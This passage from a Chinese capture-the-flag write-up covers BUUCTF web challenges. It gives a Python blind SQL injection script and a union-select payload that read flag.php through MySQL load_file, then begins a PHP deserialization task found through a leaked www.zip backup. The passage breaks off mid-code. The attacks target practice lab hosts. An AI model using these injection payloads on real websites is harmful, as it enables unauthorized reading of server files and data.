 ```python
url = 'http://c824219f-cb72-4deb-afd8-c12c4f7cacf1.node3.buuoj.cn/view.php?no='
result = ''

for x in range(0, 100):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((load_file('/var/www/html/flag.php')),%d,1))>%d,1,0)" % (x, mid)
        response = requests.get(url + payload)
        if 'http://c824219f-cb72-4deb-afd8-c12c4f7cacf1.node3.buuoj.cn/join.php' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)

```
跑完花了10几分钟得到了flag
![](https://img-blog.csdnimg.cn/20200315155217612.png)
发现其实可以直接得flag的，传参：
`?no=0+unIon/**/select+1,load_file('/var/www/html/flag.php'),1,1`
查看源码得到了flag
![](https://img-blog.csdnimg.cn/20200315160137513.png)

参考：
[网鼎杯-Fakebook-反序列化和SSRF和file协议读取文件](https://www.cnblogs.com/wangtanzhi/p/11900128.html)
[刷题记录：[网鼎杯]Fakebook](https://www.cnblogs.com/20175211lyz/p/11469695.html)


## [极客大挑战 2019]PHP
![](https://img-blog.csdnimg.cn/20200315192948472.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
由于有备份文件，尝试www.zip发现可以下载！！！
![](https://img-blog.csdnimg.cn/20200315193102871.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到flag.php文件，但发现`Syc{dog_dog_dog_dog}`并不是。。。。然后查看class.php得到

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
```